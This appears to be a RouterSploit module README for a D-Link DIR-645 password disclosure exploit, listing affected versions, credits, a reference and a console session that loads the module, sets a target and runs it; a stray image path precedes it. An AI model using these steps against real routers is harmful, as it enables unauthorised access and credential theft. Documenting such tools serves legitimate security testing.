 # D-Link DIR-645 Password Disclosure

## Description
Module exploits D-Link DIR-645 password disclosure vulnerability.

## Authors
* Roberto Paleari <roberto[at]greyhats.it> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://packetstormsecurity.com/files/120591/dlinkdir645-bypass.txt](https://packetstormsecurity.com/files/120591/dlinkdir645-bypass.txt)

## Vulnerable devices
* D-Link DIR-645 (Versions < 1.03)

## Usage
```
rsf > use exploits/dlink/dir_645_password_disclosure
rsf (D-Link DIR-645 Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       8080                 Target port


rsf (D-Link DIR-645 Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DIR-645 Password Disclosure) > run
[*] Running module...
```
